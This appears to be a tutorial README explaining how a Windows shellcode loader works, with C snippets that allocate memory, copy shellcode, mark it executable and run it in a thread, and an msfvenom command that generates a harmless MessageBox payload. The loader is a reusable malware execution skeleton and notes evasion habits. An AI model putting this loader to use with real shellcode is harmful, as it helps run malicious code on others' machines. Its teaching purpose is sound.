

# How a Windows Shellcode Loader Works

## 1. Introduction

Malware and penetration-testing tools often need to **inject and execute shellcode** inside a process. A **loader** is a small program that prepares memory, copies shellcode into it, makes it executable, and then runs it.

In this demo, instead of something malicious, the payload is a harmless **MessageBox** generated using `msfvenom`.

---

## 2. The Loader Workflow

### Step 1 – Reserve memory

```c
memory_for_payload = VirtualAlloc(
    0,                        // let the system choose address
    actual_payload_length,    // size of payload
    MEM_COMMIT | MEM_RESERVE, // commit & reserve memory
    PAGE_READWRITE            // start as Read/Write
);
```

* Allocates memory in the process’s address space.
* Windows **DEP (Data Execution Prevention)** blocks execution in RW memory, so we start with RW and later change it.

---

### Step 2 – Copy the shellcode

```c
RtlMoveMemory(memory_for_payload, actual_payload, actual_payload_length);
```

* Copies the payload (shellcode bytes) into the allocated buffer.
* Equivalent to `memcpy()`, but many malware samples use `RtlMoveMemory` to look less suspicious.

---

### Step 3 – Change memory protection

```c
VirtualProtect(memory_for_payload, actual_payload_length,
               PAGE_EXECUTE_READ, &previous_protection_level);
```

* Changes the memory from RW → RX (executable).
* This bypasses DEP so code inside that buffer can be executed.

---

### Step 4 – Run the shellcode

```c
thread_handle = CreateThread(
    0, 0,
    (LPTHREAD_START_ROUTINE)memory_for_payload,
    0, 0, 0
);
WaitForSingleObject(thread_handle, -1);
```

* Creates a new thread with the entry point set to the **shellcode buffer**.
* Waits for the thread to finish (so program doesn’t exit before the shellcode runs).

---

## 3. The Payload

The payload is **raw shellcode**. In real malware, this could be:

* Reverse shell
* Keylogger
* Process injection

But here, for safety, we use:

```bash
msfvenom -p windows/x64/messagebox TITLE="Hello" TEXT="It works!" -f c > payload.c
```

This produces shellcode that **calls `MessageBoxA`**, showing a harmless popup.

---

## 4. Expected Behavior

When you run the compiled loader:

* Allocates memory
* Copies payload
* Marks it executable
* Spawns a new thread running the payload

👉 Result: A Windows **message box pops up** with the given title/text.
After you close it, the process exits cleanly.


---


we complied it using cl.exe 


```bash
cl.exe /nologo /EHsc /O2 /Fe:shellcode_loader.exe source.c
```



